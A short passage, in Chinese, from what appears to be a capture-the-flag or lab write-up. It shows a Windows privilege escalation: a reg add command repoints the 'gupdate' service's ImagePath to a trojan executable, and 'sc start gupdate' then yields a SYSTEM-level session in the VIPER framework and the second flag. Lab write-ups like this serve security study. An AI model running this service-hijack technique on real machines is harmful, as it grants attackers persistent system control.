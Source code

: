 发现注册表相关漏洞，修改启动项为我们的恶意木马。

```plain
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\1705227157.exe" /f
```

[![](assets/1705540441-17e56f54caa4e4dfe757b93bc55e5ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174746-4dc19ecc-b454-1.png)

再使用`sc start gupdate`即可以`system`权限上线 VIPER

[![](assets/1705540441-50db2f27de77e7cf32363f00c9933aa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174754-5279735e-b454-1.png)

获取第二个 flag。

